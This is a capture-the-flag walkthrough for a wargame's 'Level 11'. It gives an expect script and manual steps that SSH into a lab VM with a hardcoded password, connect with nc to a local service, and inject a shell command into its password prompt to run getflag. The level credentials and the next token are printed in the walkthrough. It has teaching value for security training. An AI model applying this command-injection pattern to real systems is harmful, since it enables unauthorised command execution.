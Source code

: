 # Level 11
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level11@$ip -p 4242 "mkdir -p /tmp/level11 ; cd /tmp/level11 ; rm -rf ./* ; chmod 777 . ; nc 127.0.0.1 5151"
	expect "sword:"
	send "feulo4b72j7edeahuete3no7c\r"
	expect "sword:"
	send "any | echo \$\(getflag\) > /tmp/level11/flag\r"
	spawn ssh -o "StrictHostKeyChecking no" level11@$ip -p 4242 "cat /tmp/level11/flag"
	expect "sword:"
	send "feulo4b72j7edeahuete3no7c\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- View content of the `level11.lua` file
	```sh
	$ cat level11.lua
	```
- Make `level11` directory in `tmp` location
	```sh
	$ mkdir -p /tmp/level11
	$ rm -rf /tmp/level11/*
	```
- Change access mode to that directory to `777`
	```sh
	$ chmod 777 /tmp/level11
	```
- Run the following command along with password injection
	```sh
	$ nc 127.0.0.1 5151
	Password: any | echo $(getflag) > /tmp/level11/flag
	```
- View content of the `flag` file to get the flag
	```sh
	$ cat /tmp/level11/flag
	```
- With the token provided `fa6v5ateaw21peobuub8ipe6s` switch to the next user level
	```sh
	$ su level12
	Password: fa6v5ateaw21peobuub8ipe6s
	``` 
